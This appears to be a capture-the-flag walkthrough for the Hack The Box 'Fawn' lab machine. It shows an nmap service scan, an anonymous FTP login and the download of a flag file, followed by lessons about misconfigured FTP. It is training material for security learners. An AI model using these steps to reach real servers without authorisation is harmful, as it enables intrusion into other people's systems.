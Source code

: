 # Hack The Box - Fawn (Starting Point)

## 🖥 Machine Info
- **Name:** Fawn  
- **Difficulty:** Very Easy (Starting Point)  
- **IP Address:** 10.x.x.x (changes when you spawn the machine)  
- **Date Completed:** 2025-08-24  

---

## 🔎 Reconnaissance
### Nmap Scan
nmap -sC -sV 10.x.x.x


Results:
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)

Findings:
Port 21 (FTP) is open.
Anonymous login is enabled, meaning we can connect without credentials.

🚪 Exploitation
Connected to the FTP service using anonymous login:
ftp 10.x.x.x
When prompted:
Username: anonymous
Password: (pressed Enter)

Now listed the files:
ls
Found flag.txt. 

Download it:
get flag.txt

🏁 Flag
Read the file locally:
cat flag.txt


📚 Lessons Learned
FTP servers may be misconfigured to allow anonymous access.
Using nmap -sC -sV helps detect anonymous login automatically.
Always check available files after logging in — sensitive information is often left exposed.
